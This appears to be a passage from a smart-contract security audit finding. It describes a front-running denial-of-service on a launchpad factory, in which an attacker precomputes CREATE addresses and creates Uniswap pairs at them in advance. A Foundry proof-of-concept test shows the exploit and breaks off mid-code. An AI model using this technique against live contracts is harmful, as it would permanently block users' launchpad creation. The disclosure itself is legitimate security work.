 The worst thing here is that because contract nonce only increment with contract deployment, being able to pull it out only once will completely DoS the launchpad creation.
### Impact
High, as:
1) It is possible to completely DoS launchpad creation
2) Once a launchpad creation has been DoS'd, it is not possible anymore to fund that launchpad with vETH using a loan

### Proof of Concept
You can add this test to `test/GeneralTest.t.sol` :
```solidity
	import "../src/interfaces/Uniswap/IPoolFactory.sol";

	// compute the CREATE address based on deployer address and nonce
    function getContractCREATEAddress(address deployer, uint256 nonce) public pure returns (address) {
        return address(uint160(uint256(keccak256(abi.encodePacked(
            bytes1(0xd6),
            bytes1(0x94),
            deployer,
            bytes1(uint8(nonce))
        )))));
    }

    function test_frontrun_launchpad_creation1() public {
        address alice = makeAddr("alice");
        address bob = makeAddr("bob");
        uint256 MAX_LOAN_PER_BLOCK = 300 ether;

        //method 1: 
        // it is possible to get the nonce of the factory and front-run the pool creation by deploying it first
        // no need to deploy a contract at this address as Uniswap Factory will create the pair even if the address has no code
        uint64 factoryNonce = vm.getNonce(address(factory));
        address conflictingToken = getContractCREATEAddress(address(factory), factoryNonce);
        IPoolFactory(LaunchPadUtils.UNISWAP_POOL_FACTORY_).createPair(address(vETH), conflictingToken);

        vm.expectRevert("UniswapV2: PAIR_EXISTS");
        vm.prank(alice);
        factory.createLaunchPad("AliceToken", "ECILAMBO", MAX_LOAN_PER_BLOCK, address(vETH));

        // because deployer nonce only increase for each contract creation, the launchpad creation is completely frozen now
        // as this means all successive tentative will try to create a token at the same address each time
        vm.expectRevert("UniswapV2: PAIR_EXISTS");
        vm.prank(bob);
        factory.createLaunchPad("BobToken", "LAMBOB", MAX_LOAN_PER_BLOCK, address(vETH));

        //method 2: 
        // if we're not capable of front-running, we can simply pre-compute multiple addresses with incremented nonce
        // so that we're sure one of them will match the nonce of the victim tx launchpad creation  
        for(uint i; i < 10; i++) {
            conflictingToken = getContractCREATEAddress(address(factory), factoryNonce + 1 + i);
            IPoolFactory(LaunchPadUtils.UNISWAP_POOL_FACTORY_).createPair(address(vETH), conflictingToken);
        }

        vm.expectRevert("UniswapV2: PAIR_EXISTS");
```